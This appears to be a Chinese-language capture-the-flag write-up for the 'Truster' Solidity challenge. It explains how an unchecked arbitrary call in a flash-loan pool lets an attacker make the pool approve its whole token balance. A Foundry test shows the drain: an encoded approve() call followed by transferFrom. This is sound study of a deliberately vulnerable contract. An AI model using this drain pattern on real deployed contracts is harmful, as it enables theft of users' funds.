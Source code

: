 # Solution

## 问题

整个代码非常简单，就是分析`flashLoan()`函数的漏洞，但是整个函数看上去无懈可击，因为它即使用了`nonReentrant`的修饰避免了重入的威胁，同时又在前后检查账户的余额是否有所增长。

```solidity
    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore) {
            revert RepayFailed();
        }

        return true;
    }
}

```

但是这个案例不同于以往的漏洞，这个`flashLoan()`的既然可以functionCall任何函数，也就是说他也可以call ERC20 token中的`approve()`来准许我们后续盗走所有资金。



> [!NOTE]
>
> 值得注意的是在naive Receiver的案例中它写的方法是直接call receiver的`onFlashLoan()`函数，你可能一眼觉得其实这也是一种危险的举措，因为receiver可以偷偷在`onFlashLoan`中加入approve来把所有钱盗走。
>
> 但是事实上，如果在`onFlashLoan()`中加入approve，则会加入 `token.approve(address(this),token.balanceOf(msg.sender))`
>
> 这样会以你自己的地址来发送给token地址说我要转移token，这样``tx.origin` 是受害者的地址，而`msg.sender`就不是flashLoan受害者合约了

```diff
+        token.transfer(borrower, amount);
+        target.functionCall(data);

        naiveReceiver代码：
-       weth.transfer(address(receiver), amount);
-       receiver.onFlashLoan(msg.sender, address(weth), amount, FIXED_FEE, data)
```

```solidity
  function malicisouFunc() external {
        token.approve(address(this),token.balanceOf(msg.sender));
        //上面的函数无法给这个合约额度，最后的msg.sender是合约地址而不是受害者地址。
        token.transferFrom(msg.sender, address(this), token.balanceOf(msg.sender));
    }
```



在案例的test中，只需要将`target`设定位token地址，直接`functionCall` `approve()`就好。

```solidity
    function test_truster() public checkSolvedByPlayer {
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", player, TOKENS_IN_POOL);

        pool.flashLoan(0, player, address(token), data);
        token.transferFrom(address(pool), recovery, TOKENS_IN_POOL);
        
    }
```

但是，这会有两次的transaction，不符合题意。那怎么办？

简单直接把上面的操作写入一个`Attacker`合约的函数里，player调用`Attacker`合约，一笔完成。



## 思考

如果上面最后检查条件改成小于等于，是否还能这样操作呢？

```diff
    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

-        if (token.balanceOf(address(this)) < balanceBefore) {
-           revert RepayFailed();
-       }

+		if (token.balanceOf(address(this)) <= balanceBefore) {
+			revert RepayFailed();
+		}

        return true;
    }
}
```

如果是小于等于，那么就意味着我需要先用`functionCall()` -->`token::approve()`，再调用`token::transferFrom()`转一点我的钱走，但是这是两次call，而我们`token`中如果没有写好的`multiCall()`的话，我们没办法像native Receiver一样一次`functionCall()`调用两个函数.











